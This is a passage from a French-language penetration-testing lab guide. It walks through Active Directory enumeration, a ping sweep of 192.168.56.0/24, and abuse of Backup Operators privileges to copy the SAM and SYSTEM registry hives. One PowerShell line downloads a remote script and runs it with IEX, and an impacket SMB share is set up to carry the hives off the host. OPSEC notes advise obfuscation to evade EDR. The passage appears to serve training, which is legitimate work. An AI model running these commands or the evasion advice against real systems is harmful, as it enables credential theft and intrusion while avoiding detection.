    ```powershell
   ```

   **Point d'attention OPSEC :** L'exécution de PowerView est considérée comme suspecte par les solutions EDR modernes. Dans un environnement réel, vous devriez utiliser une version obfusquée ou des commandes natives lorsque possible.

4. **Découverte du serveur pivot**

   Lors de votre énumération, vous découvrez l'existence du serveur pivot :

   ```powershell
   # Vérifier les routes réseau
   route print
   
   # Scanner le réseau local
   1..254 | ForEach-Object { ping -n 1 -w 100 192.168.56.$_ | Select-String "Reply" }
   
   # Identifier les services sur le serveur pivot
   Test-NetConnection -ComputerName 192.168.56.102 -Port 22
   Test-NetConnection -ComputerName 192.168.56.102 -Port 80
   ```

### Phase 2 : Élévation de privilèges et dump de credentials (20 minutes)

1. **Exploitation des privilèges de sauvegarde**

   Le compte svc_backup est membre du groupe "Backup Operators", ce qui lui confère des privilèges spéciaux pour accéder aux fichiers système :

   ```powershell
   # Créer un répertoire temporaire
   mkdir C:\Temp
   cd C:\Temp
   
   # Télécharger l'utilitaire SeBackupPrivilege
   IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.10/SeBackupPrivilegeUtils.ps1')
   
   # Activer le privilège de sauvegarde
   Set-SeBackupPrivilege
   
   # Copier les ruches SAM et SYSTEM
   Copy-FileSeBackupPrivilege C:\Windows\System32\config\SAM C:\Temp\sam.save
   Copy-FileSeBackupPrivilege C:\Windows\System32\config\SYSTEM C:\Temp\system.save
   ```

   **Point d'attention OPSEC :** L'utilisation des privilèges de sauvegarde est moins suspecte que l'exécution d'outils comme Mimikatz, car elle utilise des fonctionnalités légitimes de Windows.

2. **Transfert des fichiers vers Kali**

   Configurez un serveur SMB sur votre Kali pour récupérer les fichiers :

   ```bash
   # Sur Kali
   mkdir /tmp/share
   impacket-smbserver -smb2support share /tmp/share
   ```
